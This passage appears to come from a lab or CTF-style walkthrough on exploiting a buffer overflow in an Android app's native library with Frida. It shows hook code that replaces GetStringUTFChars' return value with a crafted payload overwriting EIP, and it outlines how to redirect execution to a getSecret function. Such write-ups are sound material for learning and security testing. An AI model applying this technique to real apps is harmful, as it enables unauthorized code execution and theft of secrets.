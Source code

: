 ```js
    
    // Write the payload into the allocated memory
    Memory.writeByteArray(memoryForPayload, payload);

    // Hook the GetStringUTFChars function and replace the return value with our payload
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
        if (uInput == "exploit") {
          retval.replace(memoryForPayload); // Replace retval with our crafted payload
          console.log("We are done!");
        }
      }
    });
  }, 2000);
}

start_timer_for_intercept();
```

#### Explanation:

- **Memory Allocation:**
  - **Memory.alloc(100):** Allocates 100 bytes in the heap for our payload.
- **Crafting the Payload:**
  - **payload = [0x41, ...]:** Fills the first 14 bytes with 0x41 ('A') to reach the `EIP` register.
  - **payload.push(0x42, 0x42, 0x42, 0x42):** Adds 0x42 ('B') to overwrite the `EIP` register.

- **Replacing the Return Value:**
  - **retval.replace(memoryForPayload):** Replaces the original return value of `GetStringUTFChars` with our crafted payload.

This code will modify the user input to include the crafted payload, allowing us to overwrite the `EIP` register and execute the `getSecret` function.

Now that we’ve identified how to trigger the overflow, it’s time to execute the real exploit: overriding the `EIP` register with the address of the `getSecret` function.

![frida-4](https://github.com/user-attachments/assets/5359e206-d5c5-48cc-8203-b4fa5cfaac93)

Here's the process:

- **Find the Base Address of getSecret:**
  - We use `Module.findExportByName()` to locate the base address of the getSecret function within the `libnative-lib.so` library.

- **Convert the Address:**
  - After finding the address, we convert it to a hexadecimal format suitable for the `EIP` register.

- **Adjust for Endianness:**
  - The address is pushed in reverse order due to endianness, which ensures the correct function call.

- **Execute the Exploit:**
  - Finally, we hook the `GetStringUTFChars` function to replace the user input with our crafted payload, which includes the address of `getSecret`.
